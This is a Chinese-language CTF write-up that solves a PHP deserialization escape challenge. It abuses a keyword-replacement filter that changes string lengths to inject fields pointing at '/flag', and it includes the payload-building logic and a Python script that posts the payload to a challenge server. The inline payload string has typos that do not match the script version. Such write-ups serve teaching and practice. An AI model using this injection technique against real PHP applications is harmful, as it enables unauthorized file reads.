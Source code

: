 ### 预期

```php
<?php
class escape{
    public $name = 'OTL';
    public $phone = array(1);
    public $email = '/flag';
}

$a = new escape();
echo serialize($a);
```

`O:6:"escape":3:{s:4:"name";s:3:"OTL";s:5:"phone";a:1:{i:0;i:1;}s:5:"email";s:5:"/flag";}`

由于会在email中检测flag过滤, 不能直接写。
phone要求array
那我们使用name参数通过abscond来绕过。

知识点: 反序列化的字符串后加任意字母不影响反序列化

```php
<?php
class escape{
    public $name = 'OTL';
}

$escape = serialize(new escape()) . 'aasdfdsf';
var_dump(unserialize($escape));
```

`O:6:"escape":1:{s:4:"name";s:3:"OTL";}123123123` 这种正常能解析的在后面添加字符不影响解析。所以替换后前面的符合反序列化信息即可。

保证 s:数字 长度正确。 
```
NSS/CTF->hacker,长度-3
OTL_QAQ->hacker,长度+1
hello->hacker,长度-1

";s:5:"phone";a:1:{i:0;i:1;}s:5:"email";s:5:"/flag";}   长度为53
53/3 = 17 余2
用 17个CTF + 2个hello。正好吃掉53个字符
```

预期继续往下看代码,可以知道是一个反序列化的逃逸,最后构造的Payload如下

`CTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFhelLohelLo";s:5:"phone";a:1:{i:8;i:1;s:5:"email";s:5:"/flag":}`


```python
from requests_html import HTMLSession

s = HTMLSession()
data = {
    "name": 'CTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFCTFhellohello";s:5:"phone";a:1:{i:0;i:1;}s:5:"email";s:5:"/flag";}',
    'phone': '123',
    'email': '12'
}
res = s.post('http://11304-eb1d33fb-a8f1-403a.nss.ctfer.vip:9080/?cata=123', data=data)
import base64
print(base64.b64decode(res.content))
```
